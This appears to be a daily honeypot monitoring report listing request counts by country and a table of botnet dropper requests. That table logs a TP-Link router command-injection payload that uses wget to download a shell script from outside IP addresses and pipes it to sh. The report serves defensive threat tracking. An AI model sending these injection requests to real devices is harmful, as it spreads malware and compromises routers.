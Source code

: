 ```yaml
---
title: "Report: 2025-08-27 "
date: 2025-08-27
desciption: "Report: 2025-08-27" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-27 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 24 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 1 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 728 requests were recorded during the day, originating from 24 different countries, with a peak of 183 requests coming from SG.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                     |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------|
| 218.151.54.57   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 58.40.8.206     | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 34.71.237.156   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 88.175.75.20    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 181.119.111.71  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 68.113.110.78   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 45.224.251.44   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//95.103.172.144/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 187.224.221.158 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 200.124.55.84   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 218.158.250.34  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 206.220.191.144 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 58.40.8.206     | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 98.151.209.12   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 118.141.248.118 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 37.119.240.59   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 121.167.125.180 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 175.204.108.239 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 175.208.15.203  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 4.38.142.6      | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 209.164.236.20  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//95.103.172.144/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 165.228.124.117 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 221.159.119.8   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 79.20.139.205   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 210.106.139.172 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                              |
|----:|----------------------:|:-------------------------------------|
| 372 |                     1 | CONNECT 195.96.129.63:28746 HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   183 | SG                 |
|  1 |                   157 | US                 |
|  2 |                   111 | FR                 |
|  3 |                    93 | GB                 |
|  4 |                    46 | AE                 |
|  5 |                    35 | DE                 |
|  6 |                    17 | SC                 |
|  7 |                    13 | NL                 |
|  8 |                    10 | KR                 |
|  9 |                     9 | CN                 |
| 10 |                     9 | ZA                 |
| 11 |                     8 | CA                 |
| 12 |                     7 | BG                 |
| 13 |                     4 | HK                 |
| 14 |                     4 | BR                 |
| 15 |                     3 | NG                 |
| 16 |                     3 | IT                 |
| 17 |                     3 | VN                 |
| 18 |                     3 | BE                 |
| 19 |                     2 | IR                 |
| 20 |                     2 | ES                 |
| 21 |                     1 | AR                 |
| 22 |                     1 | GT                 |
| 23 |                     1 | CL                 |
| 24 |                     1 | MX                 |
| 25 |                     1 | AU                 |
| 26 |                     1 | PY                 |
